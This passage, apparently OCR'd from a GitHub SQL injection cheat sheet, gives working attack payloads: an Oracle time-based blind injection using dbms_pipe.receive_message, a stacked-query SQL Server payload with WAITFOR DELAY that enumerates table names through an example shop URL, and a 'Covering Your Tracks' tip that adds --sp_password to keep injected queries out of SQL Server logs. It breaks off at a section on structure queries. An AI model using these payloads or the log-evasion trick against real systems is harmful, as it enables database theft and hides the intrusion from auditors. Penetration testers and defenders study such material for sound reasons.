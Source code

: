 ```dbmspipe
(SELECT CASE WHEN (NVL(ASCII(SUBSTR(({INJECTION}),1,1)),0) = 100) THEN dbms_pipe.receive_message(('xyz'),10) ELSE dbms_pipe.receive_message(('xyz'),1) END FROM dual)
{INJECTION} = You want to run the query.
```

If the condition is true, will response after 10 seconds. If is false, will be delayed for one second.

Example:

Let's say the query is

```query
http://widgetshop.com/Widgets/?OrderBy=Name
```

which would be

```query
SELECT * FROM Widget ORDER BY Name
```

If stacked queries are enabled, may we can do

```ex
Name;
IF(EXISTS(
  select top 1 * from sysobjects where id=(
    select top 1 id from (
      select top 1 id from sysobjects where xtype='u' order by id
    ) sq order by id desc
  ) and ascii(lower(substring(name, 1, 1))) > 109
 ))
 WAITFOR DELAY '0:0:5'
 ```

 Statement that looks for the presence of a table at the end of sysobjects beginning with a letter greater than “m” and if it exists, the query then takes a little nap for 5 seconds.

### Covering Your Tracks

#### SQL Server -sp_password log bypass (S)

SQL Server don't log queries that includes sp_password for security reasons(!). So if you add

```sppasss
--sp_password
```

to your queries it will not be in SQL Server logs (of course still will be in web server logs, try to use POST if it's possible).

### Database Structure Queries

#### SQL Server (S)

Getting User defined Tables
